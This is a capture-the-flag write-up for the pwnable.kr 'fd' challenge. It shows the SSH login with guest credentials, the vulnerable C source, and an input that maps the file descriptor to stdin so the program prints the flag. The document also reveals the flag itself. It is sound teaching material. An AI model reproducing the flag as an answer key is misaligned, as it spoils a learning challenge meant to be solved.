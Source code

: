 # Toddler's Bottle

### Question

> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 \(pw:guest\)

<button class="section" target="solution" show="Show solution" hide="Hide solution"></button>

<!--sec data-title="Solution" data-id="solution" data-show=false ces-->

### Step 1: SSH to the remote, and look around

```sh
$> ssh fd@pwnable.kr -p2222
fd@pwnable.kr\'s password:
 ____  __    __  ____    ____  ____   _        ___      __  _  ____
|    \|  |__|  ||    \  /    ||    \ | |      /  _]    |  |/ ]|    \
|  o  )  |  |  ||  _  ||  o  ||  o  )| |     /  [_     |  ' / |  D  )
|   _/|  |  |  ||  |  ||     ||     || |___ |    _]    |    \ |    /
|  |  |  `  '  ||  |  ||  _  ||  O  ||     ||   [_  __ |     \|    \
|  |   \      / |  |  ||  |  ||     ||     ||     ||  ||  .  ||  .  \
|__|    \_/\_/  |__|__||__|__||_____||_____||_____||__||__|\_||__|\_|

- Site admin : daehee87.kr@gmail.com
- IRC : irc.smashthestack.org:6667 / #pwnable.kr
- Simply type "irssi" command to join IRC now
- files under /tmp can be erased anytime. make your directory under /tmp
- to use peda, issue `source /usr/share/peda/peda.py` in gdb terminal

fd@ubuntu:~$ ls
fd  fd.c  flag

fd@ubuntu:~$ cat flag
cat: flag: Permission denied
```

We can see that we cannot read the flag (duh!) - Maybe the other file has something.


### Step 2: See what is inside other files

```bash
fd@ubuntu:~$ cat fd.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
            printf("pass argv[1] a number\n");
            return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
            printf("good job :)\n");
            system("/bin/cat flag");
            exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;

}

fd@ubuntu:~$

```

OK, `fd.c` MUST have access to the file! It expects an argument that will become a _file descriptor_. 
According to the [Linux MAN page](http://man7.org/linux/man-pages/man3/stdout.3.html), `STDIN` is associated with filedescriptor `0`. That means if we give `0x1234` as an argument, the `fd` will become `0`.

We call the `fd` program with argument 4660 (`0x1234` in decimal) and enter the `LETMEWIN` string:

```bash
fd@ubuntu:~$ ./fd `python -c "print 0x1234"` # This is equivalent to './fd 4660'
LETMEWIN
good job :)
mommy! I think I know what a file descriptor is!!
fd@ubuntu:~$
```

So the flag is `mommy! I think I know what a file descriptor is!!`
<!--endsec-->


